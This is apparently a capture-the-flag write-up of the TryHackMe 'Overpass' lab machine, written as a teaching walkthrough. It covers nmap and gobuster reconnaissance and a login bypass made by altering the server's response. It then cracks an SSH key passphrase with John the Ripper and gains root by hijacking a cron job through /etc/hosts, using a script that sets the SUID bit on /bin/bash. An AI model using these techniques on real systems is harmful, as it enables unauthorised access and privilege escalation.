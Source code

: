 Recently, I decided to give the Overpass box a try on TryHackMe since it was on my bucketlist for a while. This is my writeup for the particular box.
I started my testing with a simple nmap scan using:
`nmap -sC -sV -oN nmapscan.txt 10.10.38.213 -v`
Here is the output of the nmap scan:
```
# Nmap 7.91 scan initiated Fri Apr 16 10:45:44 2021 as: nmap -sC -sV -oN /root/CTF/TryHackMe/Overpass/nmapscan.txt -vvv 10.10.38.213
Nmap scan report for 10.10.38.213
Host is up, received reset ttl 60 (0.18s latency).
Scanned at 2021-04-16 10:45:45 EDT for 21s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 60 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 16 10:46:06 2021 -- 1 IP address (1 host up) scanned in 21.95 seconds
```
The box looked relatively simple with port 22 open for SSH connections and port 80 open for HTTP traffic. I decided to enumerate the website running on port 80 since SSH is not a great target to start with. I left gobuster running on the background busting through all the sub-directories, while I manually looked around the website. For gobsuter I used the following command:
`gobuster dir -u http://10.10.38.213/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.html,.php,.js`
The output for the above command was:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.38.213/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,js
[+] Timeout:                 10s
===============================================================
2021/04/16 10:45:21 Starting gobuster in directory enumeration mode
===============================================================

/downloads            (Status: 301) [Size: 0] [--> downloads/]

/img                  (Status: 301) [Size: 0] [--> img/]      

/index.html           (Status: 301) [Size: 0] [--> ./]        

/login.js             (Status: 200) [Size: 1779]              

/main.js              (Status: 200) [Size: 28]                

/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  

/admin                (Status: 301) [Size: 42] [--> /admin/]  

/admin.html           (Status: 200) [Size: 1525]              

/css                  (Status: 301) [Size: 0] [--> css/]      

/404.html             (Status: 200) [Size: 782]               

/cookie.js            (Status: 200) [Size: 1502]              

[!] Keyboard interrupt detected, terminating.
===============================================================
2021/04/16 10:46:14 Finished
===============================================================
```
What particularly seemed interesting from the gobsuter results were `login.js` and the admin login panel at `/admin`. Regardless, I went on to the website and took a look. It looked something like this:

![home page](images/home.png) 

The about page had some interesting names but nothing more than that: 

![about page](images/about.png)

I moved on to the downloads section which had some interesting stuff going on with it:

![download page](images/downloads.png)

The source code for the binary seemed awfully interesting but on manual review, nothing seemed off about it except the fact that it was using ROT47 in the name of military grade encryption LOL.
Since nothing seemed off uptil now, I went on to the more concerning parts namely the `login.js` file. Upon a closer inspection I found a vulnerable function in `login.js`.

![login.js](images/login.png)

Do you see it? Look at:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
We can bypass the `if` check easily by using an HTTP proxy like `BurpSuite`. So, naturally I opened up BurpSuite and intercepted the request for the login on `/admin`, then I had to intercept the response by setting capture response to request to true.

![capture response](images/burp.png)

Simply removing the `Incorrect Credentials` would allow us bypass the check in the login function above. And that is exactly what I did.

![incorrect credentials](images/inc%20cred.png)
![no credential](images/no%20cred.png)

I refreshed the page after this and I had successfully bypassed the login. The new page presented me with an RSA private key.

![RSA Key](images/RSA.png)

I copied the key and saved it in a file. I ran `chmod 600` on the file to give it the proper permissions. Now I had to crack the passphrase for the key. I achieved this buy using `ssh2john` and `johntheripper`. First I ran `ssh2john RSA > johnrsa` and then I ran `john --wordlist=/usr/share/wordlists/rockyou.txt johnrsa`. The cracked passphrase turned out to be `james13`, and with this credential I was successfully able to ssh into the box by running `ssh -i RSA james@10.10.38.213` and supplying the password. 

![user shell via ssh](images/user%20shell.png)

SSH gave me the initial user shell but the real fun began with privilege escalation. Manually looking around seemed redundant at first glance, so I grabbed a copy of `linpeas.sh` and served it to the box using a `python http.server`.

![http server](images/http.png) 
![linpeas](images/linpeas.png)

Upon running `linpeas.sh` a peculiar cron job came under my attention. 

![cron job](images/cron.png)

This job was running every mintue with root privileges, it was basically downloading a file present in the given path `overpass.thm/downloads/src/buildscript.sh` and piping it to bash. The cherry on top was the file used to resolve a particular IP address to `overpass.thm` namely the `/etc/hosts` file was writeable by the current user according to linpeas.sh.

![/etc/hosts](images/etc.png)

So I opened up the `hosts` file and made it so that `overpass.thm` resolved to my `tun0` IP (OpenVPN IP).

![edit](images/edit.png)

Now I went into the directory where I had the python http server running and recreated the path in the job namely `/downloads/src`. In the context of the path, I made my own malicious `buildscript.sh` with the following code:
```
#!/bin/bash
chmod +s /bin/bash
```
The idea here was to set the SUID bit for /bin/bash as the `root` user so anybody with an user account could run `/bin/bash` with elevated root privileges. After a one minute wait, the job ran as expected and my malicious script was run by the `root` user. Finally, a simple `/bin/bash -p` gave me access to a root shell and I had officially rooted the box.

![root](images/root%20shell.png)
